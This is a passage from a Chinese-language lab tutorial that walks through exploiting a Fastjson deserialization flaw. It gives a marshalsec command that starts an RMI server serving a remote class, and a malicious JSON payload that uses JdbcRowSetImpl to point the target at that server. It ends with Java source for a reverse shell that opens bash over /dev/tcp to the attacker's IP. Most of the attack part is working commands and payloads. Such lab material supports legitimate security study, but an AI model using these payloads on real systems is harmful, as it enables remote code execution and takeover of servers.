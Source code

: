 
[java 反序列化利用工具 marshalsec 使用简介](https://blog.csdn.net/whatday/article/details/107942941)


然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个 RMI 服务器，监听 9999 端口，并制定加载远程类TouchFile.class：
```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.210.156:8888/#TouchFile" 9999

```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645005611688-25fd1914-d80a-407f-ab7e-26d0d9faffd3.png#clientId=ub399f6d8-8991-4&from=paste&id=myE7h&margin=%5Bobject%20Object%5D&name=image.png&originHeight=89&originWidth=1248&originalType=binary&ratio=1&size=24548&status=done&style=none&taskId=u97f0888b-2376-4ae5-a685-77e3e814bf6)

#### 
#### 3）burp传恶意json数据
重新访问页面，抓包修改请求为POST，上传恶意json文件。
注意要有 `Content-Type: application/json`，截图有误。
```shell
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.210.156:9999/Exploit",
        "autoCommit":true
    }
}
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645010118882-d0f2bc28-5f41-4c9b-8d70-7e0a8a7935ae.png#clientId=ue85efe70-9394-4&from=paste&id=u26ede270&margin=%5Bobject%20Object%5D&name=image.png&originHeight=573&originWidth=1533&originalType=binary&ratio=1&size=102697&status=done&style=none&taskId=u9a5c1ade-db87-441c-a717-1c9d2fa06da)

进入靶机查看结果：

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645009985863-ae654a96-2b22-4637-9466-e566ebdcefc3.png#clientId=ud2d22a83-8a5f-4&from=paste&id=u4903bb8c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=44&originWidth=273&originalType=binary&ratio=1&size=6620&status=done&style=none&taskId=u3fcb7d69-0897-476c-ac2d-7f0b6083504)




### 2、反弹shell
参考链接：

- [fastjson反弹shell](https://blog.csdn.net/guo15890025019/article/details/120532891)​
#### 1）制作反弹shell的java文件 -> class文件
**ReverseShell.java 如下：**
```bash
import java.lang.Runtime;
import java.lang.Process;

public class ReverseShell {
 static {
     try {
         Runtime rt = Runtime.getRuntime();
         String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/攻击方ip/4444 0>&1"};
         Process pc = rt.exec(commands);
         pc.waitFor();
     } catch (Exception e) {
    		 // do nothing
         
     }	 
 }
}

```
